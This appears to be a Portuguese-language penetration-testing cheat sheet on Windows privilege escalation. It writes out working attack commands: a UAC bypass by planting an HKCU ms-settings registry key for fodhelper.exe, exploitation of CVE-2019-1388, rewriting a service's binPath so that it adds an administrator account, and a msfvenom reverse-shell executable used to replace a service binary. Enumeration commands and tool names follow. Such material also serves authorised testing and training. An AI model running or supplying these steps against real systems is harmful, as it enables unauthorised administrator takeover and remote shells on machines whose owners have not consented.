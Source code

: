 # Escalação de Privilégio Windows

## PrivEsc realizando bypass do UAC
O UAC é o User Access Control do Windows que controla as permissões dos usuários. Podemos utilizar serviços que são executados com privilégios mais altos para fazermos a escalação.

Examinar o manifest das aplicações para descobrir o nível de privilégio em que são executadas.  
`sigcheck.exe -a -m C:\Windows\System32\notepad.exe`

Monitorar os processos das aplicações:
`procmon.exe`

A través da monitoração dos processos **HKCU**, podemos identificar chaves do registro do Windows que a aplicação faz a requisição mas a chave não existe, dessa forma criamos a chave com nosso payload que será executado ao iniciar a aplicação.  
Aplicação vulneráveis a esse ataque: **computerdefaults.exe** e **fodhelper.exe**.

Comando para adicionar a entrada no registro:
`reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`

## `PrivEsc utilizando a validação de certificados (CVE-2019-1388)  
Essa falha é explorada ao validar um certificado do Windows, primeiro devemos transferir o exploit.exe para a máquina alvo (https://github.com/jas502n/CVE-2019-1388) e executamos o arquivo.  
Será aberta a caixa de dialogo do UAC, vamos na opção de Ver Detalhes e depois Exibir informções sobre o certificado.
Dessa forma será aberta a caixa de dialogo de validação de certificados, nela é possível clicar no proprietário do certificado e seremos redirecionados para a URL utilizando o Internet Explorer. O ponto aqui é que o Internet Explorer é iniciado com usuário SYSTEM, sendo possível abrir um terminal através da caixa de dialogo da opção Salvar Como do navegador.

## `PrivEsc através de serviços em execução  
Nessa escalação podemos utilizar serviços instalados pelo usuário que estão rodando na máquina e possuem acesso completo ao sistema. Vamos verificar os serviços instalados pelo usuário que estão atualmente rodando:  
```
wmic service get Name,State,PathName | findstr "Running" | findstr "Program"
```

Após identificar o serviço, podemos examinar as permissões com um dos comandos abaixo:
```
# Utilitário do Windows, verifique por serviços com a letra (F)
icacls "$PATH"

# Pacote SysinternalSuite da Microsoft
accesschk.exe -wvcu "Users" *

# Utilitário service do Windows
sc query $SERVICE
sc qc $SERVICE
```

Á partir desse ponto podemos seguir com dois métodos:

### Método I - Manipulando o path do serviço  
Nesse método, o usuário deverá ter permissão para manipular as configurações do serviço. Com o serviço vulnerável identificado, devemos alterar o Path onde o serviço é executo e incluimos nosso payload.
```
sc config $SERVICE binPath="net user hack Admin@123 /add"
```

Nesse momento devemos apenas reinicar o serviço e o payload será executado.
```
# Para o serviço
sc stop $SERVICE

# Iniciar o serviço
sc start $SERVICE
```
### Método II - Manipulando o executavel do serviço
Nesse outro método vamos manipular o executavel do serviço vulnerável. Primeiro devemos gerar nosso exploit de shell reversa e enviar para a máquina alvo.
```
msfvenom -p windows/shell_reverse_tcp lhost=$LHOST lport=LPORT -f exe > exploit.exe
```
Após enviar o exploit para o alvo, faça a alteração do serviço utilizando o `move` e reinicie a máquina alvo com `shutdown /r /t 0`.

## Ferramentas

### Enumeração  
- **WinPEAS**
- **WindowsPrivCheck**

### Pesquisa por vulnerabilidades
**Windows Exploit Suggester (WES-NG)**
Gere um arquivo systeminfo com os dados do alvo:
`systeminfo > systeminfo.txt`  
Coloque o systeminfo na raiz do script e busque por vulnerabilidades com exploits disponíveis:  
`python3 wes.py -e systeminfo.txt`

## Comandos básicos para enumeração    
Busca por arquivos em todos os diretórios  
`where /R c:\ $FILE`  

Busca por strings em todos os diretórios  
`findstr /s "$STRING" *.txt`  

Filtrar saídas concatenando comandos
`findstr /C:"$STRING"`  

Detalhe de todos usuários
`net user`  

Detalhes do usuário  
`net user $USER`  

Nome do host  
`hostname`  

Informações do sistema  
`systeminfo`  

Visualizar processos em execução  
`tasklist`  

Visualizar o serviço associado ao processo  
`tasklist /SVC`  

Visualizar hosts que a máquina se comunica internamente  
`arp -a`  

Tabela de roteamento  
`route print`  

Visualizar portas abertas  
`netstat -ano`  

Ver informações de um serviço específico
`sc query $SERVICE`

Visualizar status do Firewall  
`netsh advfirewall show currentprofile`